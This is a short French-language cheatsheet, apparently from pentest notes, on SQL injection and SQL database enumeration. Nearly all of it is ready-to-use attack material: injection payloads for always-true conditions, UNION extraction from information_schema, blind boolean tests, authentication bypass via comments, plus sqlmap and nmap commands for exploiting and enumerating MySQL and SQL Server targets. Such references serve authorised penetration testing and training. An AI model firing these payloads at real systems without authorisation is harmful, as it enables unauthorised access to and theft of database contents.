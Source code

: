 ```yaml
---
description: Énumération SQL - Cheatsheet
---
```


# SQL

1. <mark style="color:yellow;">Injection SQL de base :</mark>
   * `' OR 1=1--` : Injection SQL basique pour récupérer toutes les entrées d'une requête (en commentant le reste de la requête).
   * `' UNION SELECT 1,2,3--` : Injection UNION pour extraire des données spécifiques.
2. <mark style="color:yellow;">Test des vulnérabilités d'injection SQL :</mark>
   * `sqlmap -u <URL>` : Détecter et exploiter les vulnérabilités d'injection SQL.
   * `sqlmap -r <fichier>` : Utiliser un fichier de requête pour l'injection SQL.
3. <mark style="color:yellow;">Extraction d'informations :</mark>
   * UNION SELECT : Utiliser UNION SELECT pour extraire des données d'autres tables ou colonnes.
   * VERSION() : Extraire la version de la base de données.
   * DATABASE() : Extraire le nom de la base de données courante.
4. <mark style="color:yellow;">Enumération des tables et des colonnes :</mark>
   * `' UNION SELECT table_name,1,1 FROM information_schema.tables--` : Enumérer les noms de tables.
   * `' UNION SELECT column_name,1,1 FROM information_schema.columns WHERE table_name='<table>'--` : Enumérer les noms de colonnes pour une table spécifique.
5. <mark style="color:yellow;">Récupération des données :</mark>
   * `' UNION SELECT <colonne>,<colonne>,... FROM <table>--` : Récupérer les données d'une table spécifique.
6. <mark style="color:yellow;">Requêtes aveugles (blind SQL injection) :</mark>
   * `' AND 1=1--`: Injection aveugle pour vérifier une condition vraie.
   * `' AND 1=2--` : Injection aveugle pour vérifier une condition fausse.
7. <mark style="color:yellow;">Contournement d'authentification :</mark>
   * Suppression de LIMIT : Supprimer LIMIT pour afficher plus d'entrées dans une liste d'utilisateurs.
   * Utilisation de commentaires : Utiliser /\* et \*/ pour commenter une partie de la requête et contourner les vérifications d'authentification.
8. <mark style="color:yellow;">Énumération des utilisateurs :</mark>
   * `' UNION SELECT user(),1,1--` : Afficher le nom de l'utilisateur courant.
9. <mark style="color:yellow;">Fuzzing de paramètres :</mark>
   * Utiliser des valeurs incorrectes pour les paramètres afin de générer des erreurs SQL et identifier les points d'injection.
10. <mark style="color:yellow;">Scripts Nmap pour l'énumération SQL :</mark>
    * `nmap -p 1433 --script ms-sql-info <cible>` : Découvrir les informations spécifiques aux bases de données SQL Server (port 1433).
    * `nmap -p 3306 --script mysql-databases,mysql-users <cible>` : Enumérer les bases de données et les utilisateurs MySQL (port 3306).
